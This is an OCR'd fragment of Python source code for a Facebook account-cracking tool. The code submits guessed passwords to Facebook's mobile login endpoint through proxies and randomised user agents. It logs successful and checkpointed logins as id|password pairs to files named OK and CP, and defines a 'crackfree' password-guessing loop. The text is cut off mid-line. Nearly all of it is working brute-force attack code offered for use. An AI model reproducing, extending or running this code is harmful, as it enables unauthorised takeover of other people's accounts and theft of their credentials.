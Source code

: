                          po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs) 
                         if "checkpoint" in po.cookies.get_dict().keys(): 
                                 print(f'\r{K}[EREN-CP] {idf}  {pw} {N}')      
                                 open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                 akun.append(idf+'|'+pw) 
                                 cp+=1 
                                 break 
                         elif "c_user" in ses.cookies.get_dict().keys(): 
                                 ok+=1 
                                 coki=po.cookies.get_dict() 
                                 kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                 print(f'\r{H}[EREN-OK] {idf}  {pw}') 
                                 open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                 cek_apk(session,coki) 
                                 break 
                                  
                         else: 
                                 continue 
                 except requests.exceptions.ConnectionError: 
                         time.sleep(31) 
         loop+=1 
 #------------------[ METHODE-MBASIC-2 ]-------------------# 
 def crackfree(idf,pwv): 
         global loop,ok,cp 
         sys.stdout.write(f"\r# {P}[{asu}Mbasic{P}]{P}[{b}{loop}{P}/{p}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{m}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "), 
         sys.stdout.flush() 
         ua = random.choice(ugen) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         for pw in pwv: 
                 try: 
                         ses.headers.update({"Host":"p.facebook.com",'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1',"upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,ima

